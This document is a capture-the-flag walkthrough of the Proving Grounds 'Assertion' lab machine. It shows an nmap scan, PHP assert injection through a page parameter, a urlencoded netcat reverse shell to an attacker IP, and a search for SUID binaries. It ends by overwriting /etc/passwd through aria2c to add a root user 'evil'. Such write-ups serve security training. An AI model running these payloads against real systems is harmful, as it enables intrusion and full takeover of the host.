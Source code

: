 ```yaml
---
layout: default
title: Assertion
parent: Proving Grounds Play
nav_order: 2
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.232.94
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-16 19:19 EST
Nmap scan report for 192.168.232.94
Host is up (0.062s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Assertion
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.26 seconds

```

# Enumeration

---

## Users

## 80 | HTTP

![index](../../../assets/images/ctfs/proving_grounds/assertion/index.png)

The URL looks susceptible to LFI, but we get a custom message after a simple test.

![brother](../../../assets/images/ctfs/proving_grounds/assertion/brother.png)

# Exploitation

---

Reaching the following page from HackTricks there are some _LFI via PHP's 'assert'_ options when the site appears to be filtering traversal strings, such as this site is doing.

[HackTricks File Inclusion Page](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```bash
http://192.168.232.94/index.php?page=%27%20and%20die(system(%22whoami%22))%20or%20%27
```

![whoami](../../../assets/images/ctfs/proving_grounds/assertion/whoami.png)

Generate a reverse shell with revshellgen

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Executing the following payload we get a reverse shell in our netcat listener.

```bash
URL: 192.168.232.94/index.php?page=' and die(system("rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl")) or '


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.94] 59352
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Locate id_rsa

Within _/var/www/html_ there is a _.todeletelater_ directory which contains a _id_rsa_ private key.

```bash
www-data@assertion:/var/www/html$ ls -la
total 196
drwxr-xr-x 9 root root  4096 Jan 16  2020 .
drwxr-xr-x 3 root root  4096 Sep  8  2020 ..
drwxr-xr-x 2 root root  4096 Jan 16  2020 .todeletelater
drwxr-xr-x 2 root root  4096 Jan 16  2020 Source
-rwxr-xr-x 1 root root 20735 Jan 16  2020 about.php
-rwxr-xr-x 1 root root 22301 Jan 16  2020 blog-single.php
-rwxr-xr-x 1 root root 15274 Jan 16  2020 blog.php
-rwxr-xr-x 1 root root 11556 Jan 16  2020 contact.php
drwxr-xr-x 2 root root  4096 Jan 16  2020 css
drwxr-xr-x 2 root root  4096 Jan 16  2020 fonts
-rwxr-xr-x 1 root root 17070 Jan 16  2020 gallery.php
drwxr-xr-x 9 root root  4096 Jan 16  2020 img
-rwxr-xr-x 1 root root 36971 Jan 16  2020 index.php
drwxr-xr-x 2 root root  4096 Jan 16  2020 js
drwxr-xr-x 2 root root  4096 Jan 16  2020 pages
-rwxr-xr-x 1 root root 23805 Jan 16  2020 schedule.php

www-data@assertion:/var/www/html$ cd .todeletelater/
www-data@assertion:/var/www/html/.todeletelater$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 16  2020 .
drwxr-xr-x 9 root root 4096 Jan 16  2020 ..
-r--r--r-- 1 root root 1766 Jan 16  2020 id_rsa

```

Looking at _/home_ there are two user directories: _fnx_ and _soz_

Deadend

## Check SUID Permissions

```bash
www-data@assertion:/dev/shm$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/at
/usr/bin/aria2c
/usr/bin/newgrp
/usr/bin/newgidmap
```

_/usr/bin/aria2c_ is interesting.

We can use _aria2c_ to overwrite files we download from the attack machine.

Let's add a user to the /etc/passwd file on our attack machine and then upload to the target.

The following will add a root user with the password _i<3hacking_

```bash
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash
```

![evil](../../../assets/images/ctfs/proving_grounds/assertion/evil.png)

Now move to the _/etc_ directory on the target and upload our malicious _passwd_ file

```bash
www-data@assertion:/etc$ aria2c -o passwd http://192.168.45.217:8000/passwd --allow-overwrite=true

11/17 02:51:11 [NOTICE] Downloading 1 item(s)
\
11/17 02:51:11 [NOTICE] Download complete: /etc/passwd

Download Results:
gid   |stat|avg speed  |path/URI
======+====+===========+=======================================================
87fe7c|OK  |        n/a|/etc/passwd

Status Legend:
(OK):download completed.


```

Now we can switch user's to our _evil_ user and get a root shell.

```bash
www-data@assertion:/etc$ su evil
Password:
root@assertion:/etc# id
uid=0(root) gid=0(root) groups=0(root)
root@assertion:/etc# whoami
root

```
